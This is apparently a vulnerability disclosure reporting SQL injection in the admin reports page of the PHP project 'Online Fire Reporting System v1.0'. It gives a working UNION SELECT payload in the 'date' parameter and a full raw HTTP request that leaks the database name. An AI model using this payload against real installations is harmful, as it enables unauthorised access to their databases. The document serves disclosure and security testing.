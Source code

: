 # Online Fire Reporting System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/admin/?page=reports&date=

Vulnerability location: /ofrs/admin/?page=reports&date=, id

[+] Payload: /ofrs/admin/?page=reports&date=2022-05-27%27%20union%20select%201,2,3,database(),5,6,7,8,9,10--+ // Leak place ---> date

```sql
GET /ofrs/admin/?page=reports&date=2022-05-27%27%20union%20select%201,2,3,database(),5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170816699-225a705e-a75d-49a6-aa11-c92f9ccb0f1a.png)

![image](https://user-images.githubusercontent.com/54017627/170816660-55eafa66-cfb3-4ccf-934c-a5fedba6bff4.png)
